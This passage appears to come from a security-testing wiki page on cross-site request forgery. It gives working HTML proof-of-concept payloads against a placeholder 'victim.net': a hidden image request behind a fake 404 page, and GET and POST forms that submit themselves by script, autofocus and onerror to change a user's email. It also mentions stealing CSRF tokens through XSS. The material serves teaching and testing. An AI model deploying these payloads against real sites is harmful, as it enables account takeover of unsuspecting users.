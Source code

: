 #### **Exfiltrating CSRF Token**

If a **CSRF token** is being used as **defence** you could try to **exfiltrate it** abusing a [**XSS**](xss-cross-site-scripting/#xss-stealing-csrf-tokens) vulnerability or a [**Dangling Markup**](dangling-markup-html-scriptless-injection.md) vulnerability.

#### **GET using HTML tags**

```markup
<img src="http://google.es?param=VALUE" style="display:none" />
<h1>404 - Page not found</h1>
The URL you are requesting is no longer available
```

Other HTML5 tags that can be used to automatically send a GET request are:

![](<../.gitbook/assets/image (530).png>)

#### Form GET request

```markup
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form method="GET" action="https://victim.net/email/change-email">
      <input type="hidden" name="email" value="some@email.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

#### Form POST request

```markup
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://victim.net/email/change-email" id="csrfform">
      <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
      <input type="submit" value="Submit request" />
      <img src=x onerror="csrfform.submit();" /> <!-- Way 2 to autosubmit -->
    </form>
    <script>
      document.forms[0].submit(); //Way 3 to autosubmit
    </script>
  </body>
</html>
```

